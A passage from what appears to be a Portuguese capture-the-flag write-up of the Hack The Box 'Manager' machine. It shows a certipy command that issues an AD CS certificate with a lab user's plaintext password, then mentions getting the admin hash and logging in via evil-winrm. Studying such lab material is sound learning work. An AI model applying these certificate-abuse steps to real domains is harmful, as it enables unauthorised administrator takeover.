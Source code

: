 ```shell
2024-02-04 09:50:34.489715 (-0300) +17.098832 +/- 0.062658 dc01.manager.htb 10.10.11.236 s1 no-leap
CLOCK: time stepped by 17.098832
```
{: .nolineno }
```shell
╭─      ~                       ✔  17s   
╰─ certipy ca -ca 'manager-DC01-CA' -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -issue-request 19
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```
{: .nolineno }
Obtendo a hash do admin com o certipy
![alt text](/assets/img/manager10.png)

### Segunda Flag

Agora basta logar via evil-winrm e obter a flag.
![alt text](/assets/img/manager12.png)

Ajuste o horário com o comando:  
`sudo ntpdate -u a.ntp.br`

**Conhecimentos adquiridos:**
- Vulnerabilidade de certificados 
- Uso do certipy  
